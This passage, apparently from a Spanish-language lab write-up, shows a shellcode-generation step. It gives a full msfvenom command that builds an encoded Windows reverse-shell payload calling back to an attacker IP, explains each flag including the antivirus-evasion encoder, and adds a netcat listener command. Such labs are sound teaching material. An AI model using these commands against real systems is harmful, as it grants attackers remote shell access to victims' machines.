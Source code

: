### 5.6 💻 Generación del Shellcode

1. Abrimos Kali Linux y generamos el payload que si se ejecuta en un objetivo establecerá una _reverse shell_.
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.60 LPORT=443 EXITFUNC=thread --bad-chars "\x00" -e x86/shikata_ga_nai --format python`

- `msfvenom`: herramienta para _generar_ payloads (parte de Metasploit).
- `-p windows/shell_reverse_tcp`: Un _reverse shell_ para Windows: el equipo objetivo abre una conexión hacia el atacante y le da una shell.
- `LHOST=192.168.1.60`: IP a la que el payload intentará conectarse (la “máquina atacante”).
- `LPORT=443`: puerto de destino en esa IP (aquí 443, el puerto HTTPS habitual).
- `EXITFUNC=thread`: indica cómo debe terminar el payload cuando finaliza (detalles técnicos de limpieza).
- `--bad-chars "\x00"`: caracteres a evitar en el binario (por ejemplo el `NUL`), útil para evitar romper ciertos vectores de entrega.
- `-e x86/shikata_ga_nai`: encodificador/obfuscador para transformar el payload (intenta evadir firmas sencillas).
- `--format python`: formatea la salida como código Python (por ejemplo para incrustarlo o generar un script).
![msfvenom](./img/msfvenom.png)

Comando `Netcat` que pone a la máquina escuchando en el puerto 443 a la espera:
`sudo nc -nlvp 443`
![nc](./img/nc.png)
2. Ejecutamos script para hacer la reverse shell